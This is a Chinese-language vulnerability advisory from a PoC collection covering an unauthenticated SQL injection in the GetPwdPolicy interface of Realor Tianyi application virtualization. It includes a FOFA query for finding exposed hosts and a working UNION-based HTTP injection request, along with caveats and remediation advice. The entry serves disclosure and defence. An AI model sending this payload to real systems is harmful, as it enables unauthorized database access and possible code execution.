

# 瑞友天翼应用虚拟化 RAPAgent GetPwdPolicy User SQL注入

## 条目说明

- 对象与具体问题：瑞友天翼应用虚拟化；RAPAgent GetPwdPolicy User SQL注入
- 版本、配置及部署条件：MySQL，修复声称7.0.5.1；受影响下界未知
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 描述PDO默认堆叠写RCE但PoC只是UNION user查询，需分别核驱动选项/FILE权限/目录执行
- 只有图未视检，缺文本返回/官方公告与精确版本
- 在野已知无来源，不能把GetPwdPolicy与旧AgentBoard默认同漏洞

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

瑞友天翼应用虚拟化系统中的 GetPwdPolicy 存在无需鉴权SQL注入的风险的接口，攻击者可利用 php PDO默认支持堆叠的方式使用堆叠写入恶意文件导致 RCE。

## 影响版本

天翼应用虚拟化系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="REALOR-天翼应用虚拟化系统"

POC/EXP：

```http
GET /RAPAgent.XGI?CMD=GetPwdPolicy&User=1%27+UNION+ALL+SELECT+NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%280x7e%2C%28SELECT+user()%29%2C0x7e%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: keep-alive
```





## 漏洞修复

临时缓解方案

加强服务器和应用的访问控制，仅允许可信IP进行访问。另外如非必要，不要将该系统开放在互联网上。

使用WAF等安全设备针对该应用的异常请求进行拦截。

升级修复方案

官方已发布新版本修复漏洞，建议更新至7.0.5.1及以上版本以修复漏洞。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
